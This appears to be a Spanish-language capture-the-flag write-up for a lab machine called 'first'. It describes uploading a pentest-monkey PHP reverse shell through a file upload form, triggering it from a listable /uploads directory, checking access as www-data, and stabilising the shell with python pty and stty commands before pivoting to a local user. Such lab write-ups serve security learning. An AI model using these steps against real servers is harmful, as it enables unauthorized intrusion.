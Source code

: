 ![first-3](./66-3.png)

# Acceso

* Intento subir una *shell* con el *upload*, por ejemplo la de **pentest-monkey** de https://www.revshells.com/

* Se pueden listar los directorios, así que directamente me voy a */uploads* y ejecuto la *reverse shell* y accedo

```php 
www-data@first:/$ whoami
whoami
www-data
```

* Existe un usuario *first*, así que toca pivotar

```php
www-data@first:/$ ls -l /home
ls -l /home
total 4
drwxr-xr-x 5 first first 4096 Aug 10 06:30 first
```
### Pivotar a first

* Tratamiento de pseudo-consola

```php 
python3 -c 'import pty;pty.spawn("/bin/bash")'

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/tmp

export TERM=xterm-256color

alias ll='clear; ls -lsaht --color=auto'

Ctrl-Z [Background Process]
stty raw -echo; fg; reset

stty columns 200 rows 200
```
